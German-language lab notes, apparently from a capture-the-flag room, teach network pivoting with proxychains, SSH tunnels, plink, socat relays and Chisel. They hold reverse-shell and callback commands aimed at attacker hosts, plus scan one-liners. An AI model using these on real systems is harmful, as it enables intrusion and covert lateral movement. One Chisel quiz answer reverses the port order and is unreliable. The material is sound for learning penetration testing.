







Beim Pivoting nutzen wir unsere initialen Zugang um uns weiter im Netzwerk umzusehen. 

Folgendes Bild zeigt das Konzept:



Wir werden folgendes lernen:

    - Enumerating eines Netzwerks mit nativen als auch statisch kompillierten Tools
    - Proxychains / FoxyProxy
    - SSH port forwarding und tunnelling (vorwiegend Unix)
    - plink.exe (Windows)
    - socat (Windows and Unix)
    - chisel (Windows and Unix)
    - sshuttle (currently Unix only)

Informationen sind essentiell, daher gilt es grundsätzlich erstmal zu enumerieren.

wir schauen uns 5 Grundlegende Wege an, die wir dafür nutzen:

    - Wir nutzen alles was wir auf der Maschine finden. Bspw. die Hosts Datei oder den ARP Cache
    - Wir nutzen Vorinstallierte Tools
    - Wir nutzen statisch kompillierte Tools
    - Wir nutzen Skript-Techniken
    - Wir nutzen lokale Tools über einen Proxy

Das ist auch ungefähr die Reihenfolge, die man nutzen sollte. Denn lokale Tools über einen Proxy zu nutzen ist sehr langsam. Daher sollte man Tools nutzen, die bereits auf der kompromettierten Maschine vorzufinden sind. Manchmal findet man bspw. auf Linux Systemen bereits ein installiertes Nmap. 
Dieses Vorgehen nennt man Living off the Land Techniken (LotL) und reduziert das Risiko aufzufliegen enorm. 

Aber zuerst sollte man sich die Informationen zusammensuchen, die man bereits auf der Maschine findet. 

- arp -a *Zeigt uns den ARP Cache an*
- Statische Mapping Einträge finden wir in /etc/hosts oder in C:/Windows/System32/drivers/etc/hosts
- /etc/resolv.conf *Zeigt uns eventuell miskonfigurierte DNS Server an* In Windows könnte man ipconfig /all
- mit dem Befehl "nmcli dev show" können wir uns alternativ in Linux dasselbe anzeigen lassen, das wir auch in der /etc/resolv.conf haben.

Kommen wir damit nicht weiter, können wir wie bereits erwähnt auch statische Tools auf das System übertragen und nutzen. Es handelt sich dabei um bereits kompollierte Dateien die keine Abhängigkeiten benötigen und daher im Prinzip auf jedem System laufen (vorausgesetzt es ist das richtige OS etc.). 

Der Unterschied zwischen statischen und dynamischen Binaries liegt in der Kompillierung. die meisten Programme nutzen irgendeine Art von externen Bibliothek wie .so unter Linux oder .dll unter Windows. Daher zählt man diese Programme zu den dynamischen. 
Bei statischen hingegen werden diese Bibliotheken bereits in das fertige Programm integriert, dass ausgeführt werden soll. In den meisten Fällen befinden sich die abhängigen Libraries nicht auf dem System, daher sind statische Binaries der Weg.

Abschließend noch das gefürchtete Scann über einen Proxy. Da diese Methode über Proxychains sehr langsam ist, sollte das der letzte Weg sein. Es können auch keine UDP Ports über einen TCP-Proxy gescannt werden. 

---
Bevor das alles jetzt anwenden schauen wir uns noch die Living off the Land Shell Techniken an. Idealerweise gibt es bereits Nmap auf dem eingenommen System. Da das allerdings nicht die Regel ist, müssen wir irgendwie anders klar kommen. Eine Möglichkeit ist die Nutzung der installierten Shell auf dem System. Die Bash-One-Liner scannt das Netzwerk mit einem Ping-Sweep nach erreichbaren Hosts:

>for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

Und mit diesem One-Liner können wir eventuell nach offenen Ports ausschau halten:

>for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done

Wir sehen, dass es neben 10.200.105.200 noch die Hosts 10.200.105.1 und 10.200.105.250 gibt.

---

Wir schauen uns jetzt mal zwei Proxy Tools an: Proxychains und FoxyProxy. 
Wenn wir einen Proxy starten, öffnen wir auf unserer Maschine einen Port der mit dem kompromottierten Server verlinkt ist und uns Zugang zum Netzwerk bietet, ähnlich wie ein Tunnel, der von uns zum Netzwerk führt.

### Proxychains

Proxychain ist ein Command Line Tool welches einem anderem Befehl vorangestellt wird. 

> proxychains nc 10.200.105.200 23 

Damit proxen wir Netcat über Proxychains

In dem Kommando sehen wir keinen Port der von Proxychains selber verwendet wird. Dieser wird normalerweise aus der /etc/proxychains.conf Datei herausgelesen. 

Allerdings ist das nicht der erste Ort an dem Proxychains nachschaut. Die Reihenfolge sieht folgendermaßen aus:

    1. The current directory (i.e. ./proxychains4.conf)
    2. ~/.proxychains/proxychains4.conf
    3. /etc/proxychains4.conf

Daher ist es relativ easy, für jede Anforderung eine spezielle conf zu verwenden, ohne die Main Datei anfassen zu müssen.

Tipp:

>cp /etc/proxychains4.conf .

Wir kopieren uns die Datei einfach ins aktuelle Verzeichnis und schauen uns diese mal an:

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Wie wir sehen, wird normalweise der Port 9050 für TOR verwendet. Wir können den Port allerdings auf unsere Bedürfnisse anpassen.

Ausserdem sollten wir folgende Zeile ebenfalls bearbeiten:

```bash
## Proxy DNS requests - no leak for DNS data
# (disable all of the 3 items below to not proxy your DNS requests)
proxy_dns
```

Wir kommentiren den Eintrag aus, da es sonst beim Scannen mit Nmap zu Fehlern kommen kann.
Was müssen wir noch beachten?

- Wir können nur TCP scans nutzen -- also keine UDP oder SYN scans. ICMP Echo packets (Ping requests) funktionieren ebenfalls nicht, also müssen wir den -Pn  switch nutzen, um Nmap davon abzuhalten.

- Es wird extrem langsam sein. Versuche daher Nmap über einen Proxy nur in Verbindung mit NSE zu nutzen. Tipp: Nutze erstmal eine statische Binary um offene Ports/Hosts zu finden und scanne dann mit dem lokalen Nmap um die Script Bibliothek nutzen zu können.

### FoxyProxy

Ja was soll ich dazu sagen? Ist eine Extension für Firefox oder Chrome usw. Damit kann man bspw. den Traffic einer Webseite über einen Proxy leiten wie BurpSuite. 
Ist eigentlich selbstklärend. Kleine Info: SOCKS4 funktioniert, sollten wir allerdings braucht CHISEL SOCKS5. 

---

Okay gehen wir endlich ans Eingemachte.

Wir erstellen einen SSH Tunnel. Dafür haben wir ja bereits SSH Zugang zum Ziel. 

Wir haben zwei Möglichkeiten den Tunnel zu erstellen:

1. Port-Forwarding: Wird mit dem -L Switch ausgeführt (L wie Local). Wenn wir zum Beispiel Zugang zu 10.200.105.200 haben und wir wissen, dass ein Webserver auf 10.200.105.250 läuft, können wir eine Verbindung folgendermaßen aufbauen:

> ssh -L 8000:10.200.105.250:80 user@10.200.105.200 -fN

Wir können jetzt die Webseite auf 10.200.105.250 über die Maschine 10.200.105.200 erreichen, wenn wir zu Port 8000 auf unserer eigenen Maschine navigieren (localhost:8000). Man sollte übrigens immer einen hohen Port für die lokale Verbindung nutzen, da man dafür bspw. kein SUDO braucht und diese Ports auch selten genutzt werden. Das -f in -fN führt das ganze im Hintergrund aus, somit haben wir unsere Shell wieder sofort wieder zur Verfügung, das -N in -fN sagt SSH dass es ansonsten keine weiteren Befehle ausführen soll....nur die Verbindung aufbauen und das war es.

2. Proxies werden mit dem -D Switch ausgeführt (-D 1337). Somit öffnen wir den Port 1337 und leiten den Datenverkehr über diesen Port ins Netzwerk. Macht absolut Sinn, das ganze dann mit Proxychains zu kombinieren. 

> ssh -D 1337 user@10.200.105.200 -fN

---

Wir können auch eine Reverse Connection erstellen. Das funktioniert mit SSH sehr gut und ist auch ratsam, wenn man womöglich eine Shell hat, aber keinen SSH Zugang. Leider ist es auch etwas risikohafter, da man den Zielhost dazu benutzt, eine Verbindung zu sich selbst aufzubauen, also mit Credentials oder Keys.

1. Als erstes erstellen wir mit *ssh-keys* ein Paar neue Keys und speichern diese irgendwie.



2. Wir kopieren den Inhalt des Public Keys und bearbeiten dann die ~/.ssh/authorized_keys Datei in unserer eigenen Maschine. Eventuell musst du die Ordner/Dateien erstmal erstellen.

3. In einer neuen Zeile gibst du folgendes ein und fügst es im Public Key ein:
>command="echo 'Dieser Account wird nur zum Port Forwarding genutzt'", no-agent-forwarding,no-x11-fordwarding,no-pty

Damit stellen wir sicher, dass dieser Key nur fürs Portwarding genutzt werden kann und es keine Möglichkeit gibt, eine Shell auf unserer Maschine zu bekommen.

Die *authorized_keys* Datei sollte also so aussehen:



Wir überprüfen anschließend, ob der SSH Server auf unserem System läuft:

>sudo systemctl status ssh

Wenn er nicht läuft, sieht es so aus:

```bash
○ ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/usr/lib/systemd/system/ssh.service; disabled; preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
```

Dann müssen wir den Service erst starten mit:

>sudo systemctl start ssh

```bash
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/usr/lib/systemd/system/ssh.service; disabled; preset: disabled)
     Active: active (running) since Thu 2024-05-02 11:49:36 CEST; 3s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 103362 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 103364 (sshd)
      Tasks: 1 (limit: 9440)
     Memory: 2.6M (peak: 2.9M)
        CPU: 38ms
     CGroup: /system.slice/ssh.service
             └─103364 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

May 02 11:49:35 kali systemd[1]: Starting ssh.service - OpenBSD Secure Shell server...
May 02 11:49:36 kali sshd[103364]: Server listening on 0.0.0.0 port 22.
May 02 11:49:36 kali sshd[103364]: Server listening on :: port 22.
May 02 11:49:36 kali systemd[1]: Started ssh.service - OpenBSD Secure Shell server.
```

Danach bleibt nur noch eine Sache übrig: Wir müssen den Key auf das System übertragen, was eigentlich absolut fail wäre. Daher haben wir Wegwerf-Keys erstellt die wir sofort löschen, wenn wir mit dem Assessment fertig sind.

Wenn wir den Key auf das System kopiert haben, können wir endlich das Port-Forwarding starten:

> ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

Pro-Tipp:
Wir können bei neueren SSH Client auch einen Reverse-Proxy erstellen:

>ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN

---

Um eine solche Verbindung wieder zu schließen, schauen wir uns die laufenden Prozesse an:



Wenn wir den entsprechenden Prozess gefunden haben, schließen wir ihn mit:



Beispiele:

Stell dir vor, du willst ein Reverse Portfward von Port 22 auf der Maschine (172.16.0.100) zu dem Port 2222 auf unsere Maschine (172.16.0.200) machen. Ausserdem willst du einen Key verwenden mit dem Namen id_rsa und das ganze soll im Backgrund laufen. Achja dein Username ist kali. Wie sieht der Befehl aus?

>ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN


--- 

Welchen Befehl nutzt du, um einen Proxy weiterzuleiten auf Port 8000 auf user@target.thm?

>ssh -R 8000 user@target.thm -fN

---

Du hast Zugriff auf den Server 172.16.0.50, auf dem intern ein Webserver auf Port 80 läuft. Dieser ist nur auf dem Server selbst erreichbar (127.0.0.1:80). Wie leitest du diesen auf Port 8000 auf deiner Maschine um? Achja Username ist user und das ganze soll dann im Hintergrund verschwinden.

>ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN

### Plink.exe

Plink ist eine CMD Version des beliebten PuTTy SSH Clients. Da Windows aber mittlerweile in seinen Versionen einen eigenen SSh Client hat, ist Plink nicht mehr ganz so relevant.

Generell ist es nicht besonders üblich das Windows Server auch einen SSH Client laufen haben. Unsere Verwendung von Plink besteht in der Regel darin, eine Binary zum Ziel zu transportieren und sie dann zum Erstellen einer reverse Shell zu verwenden.

Beachte das diese Syntax nahezu identisch mit der vorherigen ist, wenn du den Standard-OpenSSH-Client verwendest. Das cmd.exe /c echo y am Anfang ist für nicht interaktive Shells (wie die meisten Reverse-Shells – wobei Windows-Shells schwer zu stabilisieren sind) gedacht, um die Warnmeldung zu umgehen, dass das Ziel keine Verbindung zu diesem Host in der Vergangenheit hergestellt hat.


Wir müssen allerdings daran denken, dass der Key den wir mit ss-keygen erstellt haben in diesem Fall nicht funktioniert. Wir müssen diesen nämlich umwandeln mit dem puttygen Tool das wir mit folgendem Befehl installieren können:

>sudo apt install putty-tools. After downloading the tool, conversion can be done with:
puttygen KEYFILE -o OUTPUT_KEY.ppk

Wir müssen natürlich entsprechend unsere Werte eintragen.

Die dabei erstellte .ppk Datein wird dann auf das Windows System übertragen wie bereits schon in dem vorherigen Kapitel. (Trotz der Konvertierung des privaten Schlüssels funktioniert er immer noch einwandfrei mit demselben öffentlichen Schlüssel, den wir zuvor zur Datei „authorized_keys“ hinzugefügt haben)

### Socat

Socat ist nicht nur gut für stabile Linux Shells, es ist auch perfekt fürs Port Forwarding. Das große Minus ist allerdings (mal abgesehen von der sehr schwer zu verstehenden Syntax) dass es sehr selten auf einem System installiert ist. 
Die Binarys für Linux und Windows findet man [hier](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) und [hier](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

Socat kann für verschlüsselte Verbindungen verwendet werden sowohl fürs PortForwarding als auch Relays. Das würde allerdings zu komplex werden, daher müsstest du dich damit anderweitig beschäftigen. 

Man kann mit Socat jetzt keinen kompletten Proxy ins Netwerk bringen, allerdings wie bereits gesagt, Port Forwarding für Linux und Windows realisieren. Im Grunde ist Socat perfekt für ein Relay. Zum Beispiel wenn wir eine Shell auf einem Ziel haben möchten, das Ziel aber keine Verbindung zu uns zurück aufbauen kann, können wir mit Socat ein Relay auf dem bereits kompromettierten System erstellen. Dieses Relay wartet auf eine Reverse Shell von dem Zielsystem und leitet diese dann an uns weiter. 



---
**Reverse Shell Relay mit Socat**

Dann erstellen wir mal ein Relay, dass ne Rev Shell zu uns weiterleitet. 

Wir starten auf unserem System einen Netcat Listener auf Port 443

>sudo nc -lvnp 443

Danach starten wir auf dem gehackten System das Socat Relay mit:

>socat tcp-l:8000 tcp:Unsere-IP:443 &

Okay was passiert hier? Das Relay hört auf dem Port 8000. Wenn was reinkommt, leitet es dies weiter an unsere Maschine auf Port 443. Das &-Zeichen lässt das ganze im Hintergrund verschwinden, sodass wir weiter die Shell nutzen können.

Wir können das easy simulieren, wenn wir einfach auf dem System eine Netcat Verbindung loopbacken auf Port 8000.

>nc 127.0.0.1 8000 -e /bin/bash

Jetzt haben wir im Prinzip das gemacht, was oben auf dem Bild zu sehen ist.

---
**Port Forwarding mit Socat - Easy**

Der schnellste und einfachste Weg ein Port Forwarding zu realisieren ist das öffnen eines Listener Ports auf dem gehackten System und alles was durch diesen Port reinkommt an das Zielsystem weiterzuleiten.

Wenn der kompromittierte Server beispielsweise 172.16.0.5 ist und das Ziel Port 3306 von 172.16.0.10 ist, könnten wir den folgenden Befehl (auf dem kompromittierten Server) verwenden, um eine Portweiterleitung zu erstellen:

>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &

Dadurch wird Port 33060 auf dem kompromittierten Server geöffnet und die Eingaben von der angreifenden Maschine direkt auf den vorgesehenen Zielserver umgeleitet, was uns im Wesentlichen Zugriff auf die (vermutlich MySQL-Datenbank) verschafft, die auf unserem Ziel 172.16.0.10 läuft. Die fork-Option wird verwendet, um jede Verbindung in einen neuen Prozess zu stellen, und die reuseaddr-Option bedeutet, dass der Port offen bleibt, nachdem eine Verbindung zu ihm hergestellt wurde. In Kombination ermöglichen sie es uns, denselben Port für mehr als eine Verbindung weiterzuleiten. Erneut verwenden wir &, um die Shell im Hintergrund zu betreiben, sodass wir weiterhin dieselbe Terminalsitzung auf dem kompromittierten Server für andere Dinge verwenden können.

Wir können jetzt eine Verbindung zu Port 33060 auf dem Relay (172.16.0.5) herstellen und unsere Verbindung direkt an unser beabsichtigtes Ziel 172.16.0.10:3306 weiterleiten lassen.

---
**Port Forwarding mit Socat - Quiet**

Die Easy Methode ist zwar schnell und leicht, aber sie öffnet nunmal einen Port auf dem Host, daher ist es eventuell auffällig. Daher gibt es noch eine andere Möglichkeit die nur minimal schwieriger ist:

Wir führen auf unserer Angreifer Maschine folgendes aus:

>socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

Dadurch werden zwei Ports geöffnet: 8000 und 8001, wodurch ein lokales Port-Relay entsteht. Was in das eine hineingeht, kommt auch aus dem anderen wieder heraus. Aus diesem Grund sind für Port 8000 auch die Optionen fork und reuseaddr festgelegt, damit wir über diesen Port Forward mehr als eine Verbindung erstellen können.

Auf dem gehackten System führen wir folgendes aus:

>socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

Dadurch wird eine Verbindung zwischen unserem Listener Port 8001 auf dem angreifenden Computer und dem offenen Port des Zielservers hergestellt. Um das fiktive Netzwerk von zuvor zu verwenden, könnten wir diesen Befehl wie folgt eingeben:

>socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

Dadurch würde eine Verbindung zwischen Port 8000 auf unserem angreifenden Computer und Port 80 auf dem beabsichtigten Ziel (172.16.0.10) hergestellt, was bedeutet, dass wir im Webbrowser unseres angreifenden Computers zu localhost:8000 gehen könnten, um die vom Ziel bereitgestellte Webseite zu laden: 172.16.0.10:80!

Die Visualisierung dieses Szenarios ist recht komplex. Sehen wir uns also kurz an, was passiert, wenn Sie versuchen, in Ihrem Browser auf die Webseite zuzugreifen:

Die Anfrage geht an 127.0.0.1:8000
Aufgrund des Socat-Listeners, den wir auf unserem eigenen Computer gestartet haben, kommt alles, was in Port 8000 geht, aus Port 8001 heraus
Port 8001 ist direkt mit dem Socat-Prozess verbunden, den wir auf dem kompromittierten Server ausgeführt haben. Das bedeutet, dass alles, was von Port 8001 kommt, an den kompromittierten Server gesendet wird, wo es an Port 80 auf dem Zielserver weitergeleitet wird.

Der Vorgang wird dann umgekehrt, wenn das Ziel die Antwort sendet:

Die Antwort wird an den Socat-Prozess auf dem kompromittierten Server gesendet. Was in den Prozess einfließt, kommt auf der anderen Seite heraus, die zufällig direkt mit Port 8001 auf unserem angreifenden Rechner verbunden wird.
Alles, was in Port 8001 auf unserem angreifenden Computer eingeht, kommt über Port 8000 auf unserem angreifenden Computer, wo der Webbrowser seine Antwort erwartet, sodass die Seite empfangen und gerendert wird.

Wir haben jetzt das Gleiche wie zuvor erreicht, jedoch ohne Ports auf dem Server zu öffnen. Cool oder?

Wie schließen wir das ganze wieder? Die Lösung ist einfach: Führen Sie den Befehl **jobs** in Ihrem Terminal aus und beenden Sie dann alle Socat-Prozesse mit kill %NUMBER:


Empfehlenswert wäre hier der [Shell](https://tryhackme.com/r/room/introtoshells)-Room.

### Chisel

Mit [Chisel](https://github.com/jpillora/chisel) können wir ganz leicht ein Proxy Tunnel oder Portforwarding durch ein gehacktes System realisieren, ganz egal ob wir SSH Zugang haben, oder nicht. 
Da es in Golang geschrieben wurde, lässt es sich für nahezu jedes System kompellieren (Es gibt auch statische Binaries). Es beinhaltet im Prinzip die gleichen Funktionen die wir bereits beim SSH Proxy/Portwarding kennengelernt haben, allerdings braucht man nicht zwingend eine SSH Verbindung, was ein Vorteil sein kann.

Wir laden uns mal eine Chisel Binary [hier](https://github.com/jpillora/chisel/releases) runter. 

Danach werfen die entsprechende Version auf den Zielhost:

>scp -i root_wreath chisel_1.9.1_linux_amd64 root@10.200.105.200:/tmp/chisel-akcoding

Die Chisel Binary hat zwei Modes - Client und Server.

Wir schauen uns zwei Einsatzmöglichkeiten für Chisel an, SOCKS und Portwarding. 

### Reverse SOCKS Proxy

Wir werden jetzt einen Reverse SOCKS Proxy einrichten. Dieser verbindet sich zurück zu unserer Angreifer Maschine auf dem ein Listener wartet. 

Auf unserer Maschine führen diesen Befehl aus:

>/chisel_1.9.1_linux_amd64 server -p 1337 --reverse &

und auf dem Zielhost:

>./chisel-akcoding client 10.50.106.147:1337 R:socks &

```cmd
┌──(akwa㉿kali)-[~/Github/wreath]
└─$ ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[1] 50422
                                                                                                                                                                                                           
2024/05/13 11:07:29 server: Reverse tunnelling enabled
2024/05/13 11:07:29 server: Fingerprint KA6+xAoB6UKNksOw70khEj8H4W2wwfvAd2BZJXKzPek=
2024/05/13 11:07:29 server: Listening on http://0.0.0.0:1337
┌──(akwa㉿kali)-[~/Github/wreath]
└─$ 2024/05/13 11:07:36 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

-------------

[root@prod-serv tmp]# ./chisel-akcoding client 10.50.106.147:1337 R:socks &
[1] 2922
[root@prod-serv tmp]# 2024/05/13 10:07:34 client: Connecting to ws://10.50.106.147:1337
2024/05/13 10:07:34 client: Connected (Latency 47.562993ms)
```

Erwähnenswert hier ist, obwohl sich der Zielhost auf Port 1337 zurück verbindet, wurde der aktuelle Proxy auf Port 1080 geöffnet. Durch diesen werden wir auch den Datenverkehr schicken. 

Außerdem muss noch das R:socks erwähnt werden. Dieser Prefix steht für *remote*. Im Prinzip teilen wir dem Client damit mit, dass der Server erwartet, dass die Weiterleitungen alle auf der Clientseite stattfinden sollen. 

### Forward SOCKS Proxy

Im Gegensatz zu Reverse Proxys sind Foward Proxys eher selten, vergleichbar mit Reverse Shells und Binding Shells.
Der Grund dafür liegt meist darin, dass ausgehende Firewall Regeln meistens weniger streng sind als Firewalls, die eingehende Regeln behandeln. Dennoch ist es sinnvoll, sich auch den Forward SOCKS Proxy anzusehen. 

Die Syntax sieht folgendermaßen aus:

Für den Zielhost
>./chisel server -p LISTEN_PORT --socks5

und für unsere Angreifer Maschine:

>./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

Bei diesem Befehl gibt PROXY_PORT den Port an, der für den Proxy geöffnet werden soll.

Beispielsweise würde 
>./chisel client 172.16.0.10:8080 1337:socks 

eine Verbindung zu einem Chisel-Server herstellen, der auf Port 8080 von 172.16.0.10 ausgeführt wird. Ein SOCKS-Proxy würde auf Port 1337 unseres angreifenden Rechners geöffnet.

**Proxychains Erinnerung**

Wenn wir Daten über einen dieser Proxys senden, müssen wir den Port in unserer Proxychains-Konfiguration festlegen. Da Chisel einen SOCKS5-Proxy verwendet, müssen wir auch den Zeilenanfang von SOCKS4 in SOCKS5 ändern:

```cmd
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```
Hinweis: Die obige Konfiguration gilt für einen Reverse-SOCKS-Proxy – wie bereits erwähnt, öffnet sich der Proxy auf Port 1080 und nicht auf dem angegebenen Überwachungsport (1337). Wenn du Proxychains mit einem Forward-Proxy verwendest, sollte der Port auf den von dir geöffneten Port eingestellt werden (1337 im obigen Beispiel).

### Remote Port Forwarding

Eine Remote Port Weiterleitung liegt vor, wenn wir von einem gehackten System eine Verbindung zurück für die Weiterleitung herstellen.

Dafür führen wir auf unserem System im Prinzip den gleichen Befehl wie beim Reverse Proxy aus:

>./chisel server -p LISTEN_PORT --reverse &

Um den Zielhost jetzt zu unserem Listener zu verbinden, führen wir folgendes aus:

>./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

Vielleicht fällt auf, dass sich dieser Befehl sehr stark dem SSH Reverse Port Forwarding ähnelt, wo wir den zu öffnenden Port, die Ziel IP Adresse und den Zielport durch Doppelpunkte getrennt angeben. Beachte, dass wir mit Listener Port den Port angeben, an dem unser Server auf Verbindungen wartet. Local Port gibt den Port an den wir gerne auf unserer Maschine öffnen möchten und mit dem Ziel Port verbinden möchten.

Um ein altes Beispiel zu verwenden: Nehmen wir an, dass unsere eigene IP 172.16.0.20 ist, die IP des kompromittierten Servers 172.16.0.5 ist und unser Ziel Port 22 auf 172.16.0.10 ist. Die Syntax für die Weiterleitung von 172.16.0.10:22 zurück an Port 2222 auf unserem angreifenden Computer wäre wie folgt:

>./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &

Die Verbindung zu unserer angreifenden Maschine:

>./chisel server -p 1337 --reverse & 

Dies würde uns den Zugriff auf 172.16.0.10:22 (über SSH) ermöglichen, indem wir zu 127.0.0.1:2222 navigieren.

### Local Port Forwarding

Wie bei SSH stellen wir bei einer lokalen Portweiterleitung eine Verbindung von unserem eigenen angreifenden Computer zu einem Chisel-Server her, der auf einem kompromittiertes Ziel läuft.

Auf dem Ziel starten wir einen Server:

>./chisel server -p LISTEN_PORT

Wir verbinden uns jetzt von unserer angreifenden Maschine aus wie folgt damit:

>./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

Um beispielsweise eine Verbindung zu 172.16.0.5:8000 (dem kompromittierten Host, auf dem ein Chisel-Server läuft) herzustellen und unseren lokalen Port 2222 an 172.16.0.10:22 (unser beabsichtigtes Ziel) weiterzuleiten, könnten wir Folgendes verwenden:

>./chisel client 172.16.0.5:8000 2222:172.16.0.10:22


---
```bash
Welchen Befehl würden Sie verwenden, um einen Chisel-Server für eine umgekehrte Verbindung auf Ihrem angreifenden Computer zu starten?

Verwenden Sie Port 4242 für den Listener und lassen Sie den Prozess nicht im Hintergrund laufen.

# ./chisel server -p 4242 --reverse
```

```bash
Welchen Befehl würden Sie verwenden, um mit einem SOCKS-Proxy von einem kompromittierten Host aus eine Verbindung zu diesem Server herzustellen, vorausgesetzt, Ihre eigene IP ist 172.16.0.200 und der Prozess läuft im Hintergrund ab?
# ./chisel client 172.16.0.200:4242 R:socks &
```

```bash
Wie würden Sie 172.16.0.100:3306 mithilfe einer Chisel-Remote-Port-Weiterleitung an Ihren eigenen Port 33060 weiterleiten, vorausgesetzt, Ihre eigene IP ist 172.16.0.200 und der Überwachungsport ist 1337? Hintergrund dieses Prozesses.
# ./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:33060 &
```

```bash
Wenn Sie einen Chisel-Server haben, der auf Port 4444 von 172.16.0.5 läuft, wie können Sie dann einen lokalen Portforward erstellen, der Port 8000 lokal öffnet und eine Verknüpfung zu 172.16.0.10:80 herstellt?
# ./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
```
---

